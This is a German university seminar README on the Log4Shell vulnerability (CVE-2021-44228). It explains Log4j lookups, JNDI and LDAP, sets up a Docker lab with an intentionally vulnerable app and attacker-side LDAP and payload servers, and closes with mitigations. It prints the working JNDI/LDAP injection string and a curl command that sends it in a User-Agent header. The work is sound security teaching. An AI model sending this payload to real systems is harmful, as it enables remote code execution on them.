

# Seminararbeit - Log4Shell-Schwachstellen-Demonstration (CVE-2021-44228)

## Sicherheitshinweis

Dieses Repository dient ausschließlich zu **Bildungs- und Demonstrationszwecken** im Rahmen einer sicherheitsbezogenen Seminararbeit. Verwenden Sie diesen Code nicht in Produktionsumgebungen oder gegen Systeme ohne ausdrückliche Erlaubnis. Der Aufbau soll das Sicherheitsbewusstsein fördern und zeigen, wie komplexe Schwachstellen entstehen können, wenn scheinbar harmlose Features wie Logging, Namensauflösung und dynamisches Laden von Klassen miteinander kombiniert werden.

## Inhaltsverzeichnis

- [1. Projektbeschreibung](#1-projektbeschreibung)

  - [1.1 Ziel der Seminararbeit](#11-ziel-der-seminararbeit)
  - [1.2 Überblick über die Demonstration](#12-überblick-über-die-demonstration)

- [2. Was ist Log4Shell?](#2-was-ist-log4shell)

- [3. Technische Komponenten im Detail](#3-technische-komponenten-im-detail)

  - [3.1 Log4j - Funktionsweise](#31-log4j---funktionsweise)
  - [3.2 JNDI - Lookup-Mechanismus](#32-jndi---lookup-mechanismus)
  - [3.3 LDAP - Aufbau und Rolle](#33-ldap---aufbau-und-rolle)
  - [3.4 Allgemeiner Ablauf Log4Shell](#34-allgemeiner-ablauf-log4shell)

- [4. Projektstruktur und Setup](#4-projektstruktur-und-setup)

  - [4.1 Verzeichnisübersicht](#41-verzeichnisübersicht)
  - [4.2 Voraussetzungen](#42-voraussetzungen)
  - [4.3 Setup](#43-setup)

- [5. Demo des Projekts](#5-demo-des-projekts)

- [6. Schutzmaßnahmen](#6-schutzmaßnahmen)

- [7. Fazit](#7-fazit)

- [8. Quellen](#8-quellen)

## 1. Projektbeschreibung

### 1.1 Ziel der Seminararbeit

Ziel dieser Seminararbeit ist es, ein tiefgehendes Verständnis für die Log4Shell-Sicherheitslücke (CVE-2021-44228) zu vermitteln, die im Dezember 2021 bekannt wurde und als eine der kritischsten Sicherheitslücken der letzten Jahre eingestuft wurde. In der Arbeit werden sowohl die theoretischen Grundlagen erklärt, als auch eine praktische Demonstration der Schwachstelle gezeigt.

### 1.2 Überblick über die Demonstration

Zur praktischen Veranschaulichung der Log4Shell-Sicherheitslücke wurde in diesem Repository eine isolierte und containerisierte Umgebung aufgebaut, die den vollständigen Angriffsablauf reproduzierbar darstellt. Die Demonstration basiert auf drei zentralen Komponenten:

- **vulnerable-app**: Eine absichtlich verwundbare Spring Boot-Anwendung mit Log4j in Version 2.14.1. Sie loggt den `User-Agent`-Header aus dem HTTP-Request, welchen die Angreifer manipulieren können, um die Schwachstelle auszunutzen.
- **ldap-server**: Ein [Fork](https://github.com/fabioeletto/marshalsec) des bekannten Tools _marshalsec_, das als LDAP-Server fungiert. Dieser Server ist unter der Kontrolle des Angreifers und liefert eine Referenz auf eine bösartige Java-Klasse, die später ausgeführt wird.
- **payload-server**: Ein einfacher HTTP-Server, der eine bösartige Java-Klasse (`Exploit.class`) ausliefert. Wie auch der LDAP-Server ist dieser Server unter der Kontrolle des Angreifers.

> **Hinweis:** Nähere Informationen zum Setup und zur Ausführung der Demonstration finden sich im Abschnitt [4. Projektstruktur und Setup](#4-projektstruktur-und-setup) und [5. Demo des Projekts](#5-demo-des-projekts).

## 2. Was ist Log4Shell?

**Log4Shell** ist der Name einer kritischen Sicherheitslücke in der Java-Bibliothek **Log4j** mit der Bezeichnung **CVE-2021-44228**. Sie ermöglicht es einem Angreifer, mit minimalem Aufwand **beliebigen Code auf einem entfernten Server auszuführen** (Remote Code Execution, kurz RCE).

Die Schwachstelle betrifft Log4j in den Versionen **2.0 bis 2.14.1** und ist so gravierend, dass sie von vielen Sicherheitsbehörden, darunter dem BSI (Bundesamt für Sicherheit in der Informationstechnik), mit der **höchste Risikostufe** eingestuft wurde.

Log4Shell ist deshalb besonders gefährlich, weil ...

- Log4j extrem weit verbreitet ist. Es wird von Spieleservern bis hin zu Enterprise-Anwendungen genutzt.
- keine Authentifizierung notwendig ist, jeder anonyme externe Angreifer kann potenziell Schaden anrichten.
- der Angriffsvektor trivial ist, oft reicht es eine manipulierte Zeichenkette an die Anwendung zu senden.
- die Funktionalität in Log4j, um diese Schwachstelle auszunutzen, standardmäßig aktiviert ist.

Die eigentliche Ursache liegt in einer Funktionalität von Log4j, die es erlaubt, dynamische Inhalte in Log-Nachrichten über sogenannte **Lookups** zu laden. In Kombination mit **JNDI (Java Naming and Directory Interface)** und dem Protokoll **LDAP (Lightweight Directory Access Protocol)** erlaubt dies, entfernte schädliche Java-Klassen zu laden und auszuführen.

Die Entdeckung und Veröffentlichung der Schwachstelle löste weltweit eine Sicherheitswelle aus. Viele Systeme mussten umgehend gepatcht oder ausgeschalten werden. In der Folgezeit wurden weitere verwandte Schwachstellen (z. B. CVE-2021-45046) bekannt, was zeigt, wie tiefgehend und gefährlich die Problematik war.

Im Folgenden werden die beteiligten Technologien und deren Zusammenspiel im Detail erläutert, um ein tieferes Verständnis für die Schwachstelle zu entwickeln.

## 3. Technische Komponenten im Detail

### 3.1 Log4j - Funktionsweise

**Log4j** ist eine von Apache erstellte Bibliothek zur Protokollierung von Ereignissen in Java-Anwendungen. Logging ist in der Softwareentwicklung ein zentrales Werkzeug, um Systeme zu überwachen oder Fehler zu analysieren. Log4j gehört zu den bekanntesten und meistgenutzten Logging-Frameworks im Java-Ökosystem und wird sowohl in kleinen Anwendungen als auch in großen Unternehmenssystemen eingesetzt.

#### Warum Logging?

Während ein Programm läuft, treten beispielsweise folgende Ereignisse auf:

- Benutzeranfragen
- interne Zustandsänderungen
- Fehlermeldungen

Diese Ereignisse lassen sich mit **Logs** dokumentieren, meist als Textausgabe in der Konsole, in Dateien oder über Netzwerkprotokolle an zentrale Logserver. Durch sinnvolles Logging lässt sich nachvollziehen, **was eine Anwendung wann getan hat**.

#### Was bietet Log4j?

Log4j bietet eine flexible, hochgradig konfigurierbare Infrastruktur zur Erzeugung und Verarbeitung von Log-Nachrichten. Zu den zentralen Funktionen gehören:

- **Log-Level**: Es gibt verschiedene Wichtigkeitsstufen (z. B. `DEBUG`, `INFO`, `WARN`, `ERROR`), mit denen sich steuern lässt, wie detailliert geloggt werden soll.
- **Appenders**: Log-Ausgaben können an verschiedene Ziele geleitet werden (z. B. Konsole, Datei oder entfernte Server).
- **Layouts**: Mit Layouts lässt sich das Format der Log-Nachricht definieren (z. B. Zeitstempel, Thread, Nachricht).

Weitere Features, die für die Seminararbeit relevant sind, werden in späteren Abschnitten behandelt, insbesondere die **Platzhalter-Funktionalität** und die **Lookup-Funktionalität**.

#### Einfaches Beispiel

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Example {
    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        logger.info("Starte Anwendung...");
    }
}
```

In diesem einfachen Beispiel wird eine Logger-Instanz erstellt oder abgerufen, falls sie bereits existiert. Anschließend wird eine Log-Nachricht auf der `INFO`-Stufe ausgegeben. Log4j kümmert sich um die Formatierung und Ausgabe der Nachricht, basierend auf der Konfiguration. Eine Beispielkonfiguration könnte wie folgt aussehen:

```xml
<Configuration status="WARN">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss} %-5p %c{1} - %m%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

Diese Konfiguration definiert einen Appender, der Log-Nachrichten im Format `Datum Uhrzeit Log-Level Loggername - Nachricht` auf der Konsole ausgibt. Dieser Appender wird dann dem Root-Logger zugewiesen, der alle Log-Nachrichten ab der Stufe `INFO` verarbeitet.

Die Ausgabe könnte dann so aussehen:

```
2023-10-01 12:00:00 INFO  Example - Starte Anwendung...
```

Kommen wir nun zu den spezifischen Features von Log4j, die für die Log4Shell-Sicherheitslücke am relevantesten sind.

#### Platzhalter in Log-Nachrichten

Ein besonders nützliches Feature von Log4j ist die Unterstützung von **Platzhaltern** in Log-Nachrichten. So können dynamische Inhalte zur Laufzeit in die Log-Ausgabe eingefügt werden:

```java
String username = "Alice";
logger.info("Benutzer angemeldet: {}", username);
```

Dabei wird zur Laufzeit `{}` durch den tatsächlichen Wert der Variable `username` ersetzt.
Dies führt zu der folgenden Ausgabe:

```text
"Benutzer angemeldet: Alice"
```

#### Dynamische Ausdrücke sogenannte Lookups

Neben einfachen Platzhaltern bietet Log4j auch die Möglichkeit, komplexere Ausdrücke direkt in der Log-Nachricht aufzulösen. Diese Funktion nennt sich **Lookup**: Sie erlaubt es, Werte zur Laufzeit dynamisch einzufügen (z. B. Umgebungsvariablen, Systeminformationen oder Konfigurationswerte)

Beispiele für solche dynamischen Ausdrücke:

- `${env:HOME}` - gibt den Wert der Umgebungsvariablen `HOME` zurück. Unter Linux / macOS wäre das z. B. `/home/username`.
- `${docker:...}` - könnte Informationen über den Docker-Container liefern, in dem die Anwendung läuft.
- `${jndi:...}` - führt einen JNDI-Lookup durch, um interne oder externe Ressourcen zu laden.

Im nächsten Abschnitt wird die JNDI-Funktionalität genauer betrachtet, da sie eine zentrale Rolle in der Log4Shell-Sicherheitslücke spielt.

### 3.2 JNDI - Lookup-Mechanismus

**JNDI** steht für _Java Naming and Directory Interface_ und ist eine standardisierte Java-API, die es ermöglicht, auf **Namens- und Verzeichnisdienste** zuzugreifen. Mit JNDI können Java-Anwendungen Ressourcen nicht direkt über technische Pfade, sondern über symbolische Namen referenzieren.

Ein klassischer JNDI-Einsatz ist das Nachschlagen von Datenbankverbindungen, welches Sie hier sehen:

```java
public class JndiExample {
    public static void main(String[] args) throws Exception {
        InitialContext ctx = new InitialContext();
        Datasource ds = (DataSource) ctx.lookup("java:/comp/env/jdbc/myDB");
        // Datenbankverbindung verwenden
    }
}
```

Zuerst wird ein `InitialContext` erstellt, der den Einstiegspunkt für die Namensauflösung mithilfe von JNDI darstellt. Anschließend wird über die Methode `lookup` eine Ressource gesucht. In diesem Fall eine Datenquelle (`DataSource`) mit dem symbolischen Namen `java:/comp/env/jdbc/myDB`.

#### Welche Vorteile bietet JNDI?

- **Entkopplung von Anwendung und Infrastruktur**: Konfigurationen müssen nicht im Code hinterlegt werden, sondern können zentral auf einem Server verwaltet werden.
- **Wiederverwendbarkeit und Portabilität**: Eine Anwendung kann problemlos in mehreren Umgebungen (z. B. Entwicklung, Test, Produktion) laufen, ohne dass der Code angepasst werden muss. Man muss lediglich die jeweiligen Konfigurationsdateien anpassen.
- **Flexibilität**: JNDI ist protokollunabhängig, es wird lediglich eine Schnittstelle bereitgestellt und die eigentliche Kommunikation übernimmt ein sogenannter _Service Provider_ im Hintergrund. Dadurch kann JNDI auf verschiedene Dienste zugreifen, nicht nur auf LDAP, sondern auch auf RMI, DNS, CORBA usw.

#### Aufbau von JNDI


Die Java-Anwendung nutzt die protokollunabhängige Schnittstelle von JNDI, diese enthält Klassen wie `InitialContext`, mit der Methode `lookup`. Die API ist immer gleich, egal ob man LDAP, DNS, usw. verwendet. Der Naming Manager fungiert als Vermittler und wählt den passenden _Service Provider_ aus, der die eigentliche Kommunikation übernimmt. Beim JNDI SPI (Service Provider Interface) handelt es sich um eine Sammlung von Klassen, die die JNDI-Funktionalität für verschiedene Protokolle implementieren. In unserem Fall ist der relevante Service Provider **LDAP**.

Im nächsten Abschnitt schauen wir den Service Provider **LDAP** genauer an.

### 3.3 LDAP - Aufbau und Rolle

**LDAP** steht für _Lightweight Directory Access Protocol_ und ist ein standardisiertes Netzwerkprotokoll, das den Zugriff auf sogenannte **Verzeichnisdienste** ermöglicht. Es wurde ursprünglich als schlanke Alternative zu X.500 entwickelt und ist heute ein Standard in vielen Unternehmensnetzwerken, besonders für zentrale Benutzer- und Rechteverwaltung.

#### Was ist ein Verzeichnisdienst?

Ein Verzeichnisdienst ist eine strukturierte Datenbank, die Informationen in hierarchischer Form speichert. Anders als relationale Datenbanken ist ein Verzeichnis:

- eher **leseorientiert**
- **stark hierarchisch** aufgebaut (wie ein Dateisystem)
- für **schnellen Zugriff** auf Identitäts- oder Konfigurationsdaten optimiert

#### Aufbau eines LDAP-Verzeichnisses


Wie man auf dem Bild sieht, ist ein LDAP-Verzeichnis in einer baumartigen Struktur organisiert. Auf der Root-Ebene befinden sich die **Domain Components (dc)**. Darunter können **Organizational Units (ou)** liegen, die weitere Unterteilungen darstellen, wie zum Beispiel `Users`. Für einzelne Benutzer oder Objekte gibt es dann **Common Names (cn)**, die den spezifischen Eintrag identifizieren und verschiedene Attribute enthalten können.

**Bedeutung:**

- `dn`: Distinguished Name
- `dc`: Domain Component
- `ou`: Organizational Unit
- `cn`: Common Name

Schauen wir uns nun an, wie LDAP angesprochen wird und welche Rolle es in der Log4Shell-Sicherheitslücke spielt.

#### Wie wird LDAP angesprochen?

Man kann in LDAP auch Referenzen auf externe Klassen speichern, die dann bei Bedarf nachgeladen werden können. Dies geschieht über spezielle Attribute wie `javaClassName` und `javaCodeBase`. Diese Attribute können auf eine URL verweisen, von der eine Java-Klasse geladen werden soll.

Mit der folgenden URL können wir beispielsweise ein Objekt abfragen, das auf eine Java-Klasse verweist:

```
ldap://ldap-server:1389/Exploit
```



Wie man auf dem Bild sieht, enthält der LDAP-Eintrag ein Attribut `javaClassName`, das auf die Klasse `Exploit` verweist. Mit dem Attribut `javaCodeBase` wird die URL angegeben, von der die Klasse geladen werden soll. In diesem Fall ist es ein HTTP-Server mit der Adresse `http://payload-server/`, der die `Exploit.class` bereitstellt.

Nun haben wir alle technischen Komponenten im Detail betrachtet. Im nächsten Abschnitt wird der allgemeine Ablauf der Log4Shell-Sicherheitslücke beschrieben, um zu verstehen, wie diese Technologien zusammenspielen und welcher Angriffsvektor daurch entsteht.

### 3.4 Allgemeiner Ablauf Log4Shell

Nachdem wir die drei beteiligten Technologien, **Log4j** als Logging-Framework, **JNDI** als Schnittstelle für Verzeichnisdienst und **LDAP** als konkreten Verzeichnisdienst, einzeln betrachtet haben, wird nun deutlich, wie gefährlich ihre Kombination sein kann, wenn keine Sicherheitsvorkehrungen getroffen wurden.

In Log4j-Versionen bis 2.14.1 war es möglich, sogenannte **Lookups** direkt in Log-Nachrichten auswerten zu lassen. Dadurch konnten JNDI-Abfragen über LDAP eingebunden werden, welche dann beliebige Java-Klassen von einem entfernten Server laden und ausführen konnten, ohne diese Funktionalität explizit aktiviert zu haben.

#### Konkretes Szenario im Zusammenspiel:

Nun setzen wir das gerade Erlernte in einem konkreten Beispiel um. Als ersten Schritt starten wir einen JNDI-Lookup mit dem folgenden Ausdruck:

```text
${jndi:...}
```

Setzten wir nun den LDAP-Service Provider ein, um eine entfernte Java-Klasse zu laden `ldap://ldap-server:1389/Exploit`. Zusammen ergibt sich folgende Zeichenkette:

```text
${jndi:ldap://ldap-server:1389/Exploit}
```

Nun muss nur noch ein Angreifer dafür sorgen, dass diese Zeichenkette in eine Log-Nachricht gelangt, z. B. durch Manipulation eines HTTP-Headers.


Wie man auf dem Bild sieht, gibt es links den Angreifer, der einen eigenen LDAP-Server und Payload-Server hostet. Rechts ist die verwundbare Anwendung mit der Log4j Version 2.14.1. Der Ablauf des Angriffs ist wie folgt:

1. Ein Angreifer sendet eine HTTP-Anfrage an die Anwendung und trägt die oben gezeigte manipulierte Zeichenkette zum Beispiel in den `User-Agent`-Header ein:

   ```http
   User-Agent: ${jndi:ldap://ldap-server:1389/Exploit}
   ```

2. Die Anwendung loggt den `User-Agent`-Header:

   ```java
   logger.info("User-Agent: {}", request.getHeader("User-Agent"));
   ```

   Log4j erkennt `${jndi:...}`und führt automatisch einen **JNDI-Lookup** über das angegebene Protokoll `ldap` durch

3. Nun wird der LDAP-Service Provider aufgerufen, um die angegebene URL `ldap://ldap-server:1389/Exploit` aufzulösen.

4. Der LDAP-Server antwortet mit einem Verweis auf eine externe **Java-Klasse (`Exploit.class`)**, die sich auf folgendem Server befindet:

   ```
   http://payload-server:8000/Exploit.class
   ```

5. Die Anwendung schickt eine Anfrage an den Payload-Server, um die `Exploit.class` zu laden.

6. Der Payload Server antwortet mit der Java-Klasse `Exploit.class`. Anschließend wird diese Klasse ohne jegliche Validierung ausgeführt. Der Angreifer hat somit die komplette Kontrolle über den Code, der auf dem verwundbaren Server ausgeführt wird.

#### Warum funktioniert das?

Weil:

- Log4j die Log-Nachricht interpretiert, anstatt sie nur auszugeben
- JNDI intern eine Verbindung zu beliebigen Service Providern erlaubt
- der Class Loader ohne Einschränkung externen Code ausführt.

Das Zusammenspiel von **dynamischen Lookups in Log4j**, **flexibler Namensauflösung durch JNDI** und dem **Protokoll LDAP** schafft eine unerwartete Angriffsfläche. Was ursprünglich als leistungsfähiges Konfigurations-Feature gedacht war, wurde zur Einfallstür für Remote Code Execution.

Im nächsten Abschnitt wird die Projektstruktur und das Setup der Demo beschrieben, um die Schwachstelle lokal auszuführen.

## 4. Projektstruktur und Setup

### 4.1 Verzeichnisübersicht

Die Projektstruktur spiegelt die drei zentralen Komponenten wider:

```text
log4shell/
...
├── vulnerable-app/              # Verwundbare Spring Boot-Anwendung mit Log4j 2.14.1
├── ldap-server/                 # LDAP-Server (Fork von marshalsec)
├── payload-server/              # HTTP-Server zur Auslieferung des Exploit-Payloads
...
```

### 4.2 Voraussetzungen

Um die Log4Shell-Demo lokal auszuführen, werden folgende Voraussetzungen benötigt:

#### Docker & Docker Compose

Die gesamte Infrastruktur basiert auf Containern. Docker sorgt dafür, dass jede Komponente (vulnerable-app, ldap-server, payload-server) in einer isolierten Umgebung läuft.

- **Docker**:  
  Installation unter [https://www.docker.com/get-started](https://www.docker.com/get-started)

- **Docker Compose** (wird bei Docker Desktop bereits mitgeliefert)  
  Alternativ installierbar über [https://docs.docker.com/compose/](https://docs.docker.com/compose/)

#### cURL

Um den Angriff über die Kommandozeile auszuführen, kann das Tool `curl` verwendet werden:

- Bereits vorinstalliert auf Linux/macOS
- Unter Windows via [https://curl.se/](https://curl.se/) oder in Git Bash enthalten

> **Hinweis:** Die Anwendung und alle enthaltenen Server laufen lokal auf Ihrem Rechner und kommunizieren ausschließlich innerhalb eines isolierten Docker-Netzwerks (`log4shell-network`). Es wird keine Verbindung zu externen Servern benötigt oder hergestellt.

### 4.3 Setup

In diesem Abschnitt wird beschrieben, wie die Umgebung lokal eingerichtet und gestartet werden kann.

#### Schritt 1: Repository klonen

```bash
git clone https://github.com/fabioeletto/hka-seminar-log4shell.git
cd hka-seminar-log4shell
```

#### Schritt 2: Container erstellen und starten

Mit Docker Compose können alle benötigten Dienste mit einem einzigen Befehl gestartet werden:

```bash
docker-compose up --build
```

`docker-compose up --build` bewirkt:

- Die Images für `vulnerable_app`, `ldap_server` und `payload_server` werden gebaut
- Alle drei Dienste werden gestartet
- Sie kommunizieren über ein gemeinsames internes Docker-Netzwerk (`log4shell-network`)

Nach erfolgreichem Start ist die Anwendung über folgenden Endpunkt erreichbar:

```
http://localhost:8080
```

Log-Ausgaben und Ereignisse erscheinen live in der Konsole. Die Container laufen, solange das Terminalfenster geöffnet ist (oder der Prozess im Hintergrund läuft).

> **Hinweis:** Stellen Sie sicher, dass keine anderen Dienste auf den Ports **8080**, **1389** oder **8000** laufen, um Konflikte zu vermeiden.

> Falls Sie die Container schließen möchten, können Sie dies mit `docker-compose down` tun. Dadurch werden alle laufenden Container gestoppt und entfernt, aber die Images bleiben erhalten.

## 5. Demo des Projekts

In diesem Abschnitt wird gezeigt, wie die Log4Shell-Schwachstelle in der bereitgestellten Demo-Umgebung gezielt ausgelöst werden kann. Dabei arbeiten alle zuvor gestarteten Komponenten zusammen:

- Die **vulnerable-app** loggt den `User-Agent`-Header mit Log4j
- Der **ldap-server** liefert eine manipulierte Referenz zurück
- Der **payload-server** stellt die eigentliche Java-Klasse (`Exploit.class`) bereit

#### Schritt-für-Schritt-Angriff

Um die Demo auszuführen, benötigen Sie zwei Konsolenfenster. Starten Sie zunächst die Umgebung mit `docker-compose up --build` in einem Terminal, falls Sie dies nicht bereits gemacht haben. In einem zweiten Terminal führen Sie dann die folgenden Schritte aus:

1. **Verifizieren Sie, dass die Datei noch nicht existiert**:

   Da es sich um eine Demo handelt, wird als Exploit lediglich eine leere Datei erstellt, um die erfolgreiche Ausführung zu demonstrieren. Das können Sie der Klasse `payload-server/Exploit.java` entnehmen. Um zu überprüfen, ob die Datei noch nicht existiert, führen Sie folgenden Befehl aus:

   ```bash
   docker exec vulnerable_app ls -l /tmp/remote_code_execution
   ```

   Wenn die Datei nicht existiert, sollte eine Fehlermeldung wie `No such file or directory` erscheinen. Dies bestätigt, dass der Exploit noch nicht ausgeführt wurde.

2. **Senden Sie die manipulierte Zeichenkette an die Anwendung**:

   ```bash
   curl -X GET -H 'User-Agent: ${jndi:ldap://ldap-server:1389/Exploit}' http://localhost:8080
   ```

   Erklärung des Payloads:

   - `${jndi:...}`: Log4j interpretiert diesen Ausdruck automatisch und führt einen JNDI-Lookup durch.
   - `ldap://ldap-server:1389`: Verbindet sich mit dem LDAP-Server, der im Docker-Netzwerk läuft.
   - `/Exploit`: Name des LDAP-Eintrags, der auf die schädliche Klasse verweist.
   - `http://localhost:8080`: Die URL der verwundbaren Anwendung, an die Sie die Anfrage senden, um die Log4j-Schwachstelle auszulösen.

3. **Was passiert im Hintergrund?**

   

   - Die Anwendung empfängt die Anfrage und will den `User-Agent`-Header loggen
   - Log4j wertet den `User-Agent`-Header aus und führt einen **JNDI-Lookup** über **LDAP** durch
   - Der LDAP-Server verweist auf eine entfernte `Exploit.class`, welche der Payload-Server bereitstellt
   - Die Anwendung lädt die Klasse vom Payload-Server und führt sie aus
   - Am Ende wird dann die ursprüngliche Log-Nachricht mit dem dynamischen Inhalt geloggt

> Hinweis: Wie bereits erwähnt, wird in dieser Demo lediglich eine leere Datei erstellt, um die erfolgreiche Ausführung zu demonstrieren. In echten Angriffsszenarien könnte beliebiger Code ausgeführt werden!

4. **Angriffsfolge überprüfen**

   Nun können Sie erneut überprüfen, ob die Datei `/tmp/remote_code_execution` im Container erstellt wurde:

   ```bash
   docker exec vulnerable_app ls -l /tmp/remote_code_execution
   ```

   Wenn der Angriff erfolgreich war, sollten Sie folgende Ausgabe sehen:

   ```
   -rw-r--r-- 1 root root 0 Jun 9 12:34 /tmp/remote_code_execution
   ```

Mit nur einer einzelnen manipulierten Logzeile wird ein vollständiger Remote-Code-Ausführungsprozess ausgelöst, genau das macht Log4Shell so gefährlich. Diese Demo zeigt, wie das Zusammenspiel von **Log4j**, **JNDI** und **LDAP** zur Ausnutzung führen kann.

## 6. Schutzmaßnahmen

Die Log4Shell-Sicherheitslücke hat gezeigt, wie tiefgreifend moderne Anwendungen durch scheinbar harmlose Features kompromittiert werden können. Um Systeme wirksam gegen solche Angriffe abzusichern, sollten folgende Maßnahmen umgesetzt werden:

- **Log4j-Version aktualisieren (mindestens 2.17.1)**

  Die wichtigste Maßnahme ist das **Update auf eine Log4j Version ≥ 2.17.1**, denn erst ab dieser Version wurden alle bekannten Schwachstellen (inklusive DoS und Konfigurations-Exploits) behoben. Frühere Versionen sind weiterhin verwundbar und sollten nicht mehr verwendet werden!

- **JNDI-Lookups deaktivieren**

  Falls ein vollständiges Update nicht möglich ist, sollten **JNDI-Lookups deaktiviert** werden. Dies kann in der `log4j2.properties`-Datei durch Setzen der folgenden Konfiguration erreicht werden:

  ```properties
  log4j2.formatMsgNoLookups=true
  ```

  Diese Einstellung verhindert, dass Log4j JNDI-Lookups in Log-Nachrichten auswertet. Dadurch wird die Angriffsfläche erheblich reduziert. Jedoch ist dies nur ein temporärer Workaround, da andere Schwachstellen weiterhin bestehen können (DoS, Konfigurations-Exploits).

- **Eingaben validieren**

  Alle Benutzereingaben sollten **validiert und bereinigt** werden, bevor sie in Log-Nachrichten verwendet werden. Insbesondere sollten dynamische Ausdrücke wie `${jndi:...}` nicht direkt übernommen werden.

- **Ausgehende Netzwerkverbindungen einschränken**

  Ein zentraler Bestandteil des Exploits war der ungehinderte Zugriff auf externe Server, welche vom Angreifer kontrolliert werden. Systeme sollten so konfiguriert werden, dass sie **nicht beliebige externe Ziele erreichen können**, z. B. durch Firewalls oder Netzwerk-Policies.
  Insbesondere sollte der Zugriff auf unbekannte LDAP-Ziele aus der Anwendung heraus unterbunden werden.

## 7. Fazit

Die Log4Shell-Sicherheitslücke zeigt eindrucksvoll, wie wichtig es ist, sich nicht nur auf die Sicherheit des eigenen Codes zu verlassen, sondern auch die genutzten Bibliotheken und Frameworks sorgfältig auszuwählen und zu verstehen. In diesem Fall führte eine scheinbar harmlose Logging-Bibliothek (Log4j) zu einer Remote-Code-Execution-Schwachstelle. Daran sieht man, dass auch Abhängigkeiten zu einer Einfallstür für Exploits werden können. Man sollte sich immer fragen, ob man eine externe Bibliothek wirklich benötigt oder ob sich eine Funktion auch ohne zusätzliche Abhängigkeiten umsetzen lässt.

Ein weiterer wichtiger Punkt ist das Thema **versteckte Komplexität**. Funktionen wie `${env:HOME}` innerhalb einer Log-Nachricht sehen harmlos aus, verbergen aber komplexe Mechanismen im Hintergrund, wie dynamische Lookups. Dadurch kann sich unbemerkt gefährliches Verhalten einschleichen. Alternativ sollte man lieber explizite und transparente Lösungen verwenden, etwa `System.getenv("HOME")`, so behält man die Kontrolle und kann nachvollziehen, was passiert.

Zudem gilt ein allgemeiner, aber oft vernachlässigter Grundsatz: **Niemals Benutzereingaben ungeprüft weiterverarbeiten**. Besonders bei sicherheitsrelevanten Operationen wie Logging, Datenbankzugriffen oder Systembefehlen müssen Eingaben validiert und bereinigt werden.

Nicht zuletzt zeigt der Vorfall, wie gefährlich es sein kann, wenn mächtige Features wie JNDI-Lookups standardmäßig aktiviert sind. Wäre in Log4j diese Funktion nicht standardmäßig aktiviert gewesen, wäre nur eine kleine Teilmenge der Systeme betroffen gewesen.

**Die wichtigsten Erkenntnisse:**

- Sicherheitslücken können auch in scheinbar harmlosen Bibliotheken stecken.
- Überlegen, ob man externe Bibliotheken wirklich benötigt.
- Versteckte Komplexität vermeiden.
- Niemals ungeprüfte Benutzereingaben weiterverarbeiten.
- Mächtige Features wie JNDI-Lookups sollten nicht standardmäßig aktiviert sein.

## 8. Quellen

- [CVE-2021-44228 – National Vulnerability Database (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [BSI-Warnmeldung zu Log4Shell](https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=10)
- [Log4j Dokumentation](https://logging.apache.org/log4j/2.x/index.html)
- [JNDI Konzepte](https://docs.oracle.com/javase/tutorial/jndi/concepts/index.html)
- [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
- [LDAP Einführung (RFC 4511)](https://datatracker.ietf.org/doc/html/rfc4511)
- [LDAP](https://www.redhat.com/en/topics/security/what-is-ldap-authentication)
- [Log4Shell](https://www.ibm.com/think/topics/log4shell)
- [Log4Shell Video Teil 1](https://www.youtube.com/watch?v=w2F67LbEtnk)
- [Log4Shell Video Teil 2](https://www.youtube.com/watch?v=iI9Dz3zN4d8)
- [Fork marshalsec](https://github.com/fabioeletto/marshalsec)
